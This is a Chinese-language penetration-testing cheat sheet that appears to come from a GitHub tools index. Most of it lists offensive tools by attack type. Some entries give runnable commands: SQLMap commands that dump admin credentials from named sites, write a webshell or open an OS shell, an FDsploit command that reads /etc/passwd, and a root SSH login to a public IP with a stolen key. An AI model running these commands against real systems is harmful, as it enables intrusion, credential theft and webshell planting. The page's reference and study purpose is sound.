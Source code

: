 漏洞利用
----------------------------------------

C2服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- msf监听模块：exploit/multi/handler

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `SQLMap <https://github.com/sqlmapproject/sqlmap>`_
	+ 默认选择不询问用户输入
		``--batch``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		``–privileges``
	+ POST注入
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`` 
	+ 读取与写入文件
		| 首先找需要网站的物理路径，其次需要有可写或可读权限.
		| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
		| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
		| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
		| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
	+ 执行命令
		``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `commix <https://github.com/commixproject/commix>`_

PHP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Chankro <https://github.com/TarlogicSecurity/Chankro>`_ Herramienta para evadir disable_functions y open_basedir

LFI
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
- burpsuite
	+ Intruder->Sniper

struts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `struts scan <https://github.com/Lucifer1993/struts-scan>`_

DNS 隧道
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
- `ysoserial <https://github.com/frohoff/ysoserial>`_
- `JRE8u20 RCE Gadget <https://github.com/pwntester/JRE8u20_RCE_Gadget>`_
- `Java Serialization Dumper <https://github.com/NickstaDB/SerializationDumper>`_
- `gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications

端口Hack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Oracle Database Attacking Tool <https://github.com/quentinhardy/odat>`_
- `nmap vulners <https://github.com/vulnersCom/nmap-vulners>`_
- `nmap nse scripts <https://github.com/cldrn/nmap-nse-scripts>`_
- `Vulnerability Scanning with Nmap <https://github.com/scipag/vulscan>`_

JWT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `jwtcrack <https://github.com/brendan-rius/c-jwt-cracker>`_

无线
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `infernal twin <https://github.com/entropy1337/infernal-twin>`_

中间人攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

DHCP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `DHCPwn <https://github.com/mschwager/dhcpwn>`_

DDoS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Saddam <https://github.com/OffensivePython/Saddam>`_

Bad USB
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `WiFiDuck <https://github.com/spacehuhn/WiFiDuck>`_ Keystroke injection attack plattform

ssh公钥登录
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在服务端假如访问到.ssh目录，当服务端配置可以使用公钥登录时，可以拿到公钥id_rsa，然后使用 ``ssh -i id_rsa root@142.93.198.56`` 命令登录。

网站备份文件扫描
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `ihoneyBakFileScan <https://github.com/sry309/ihoneyBakFileScan>`_
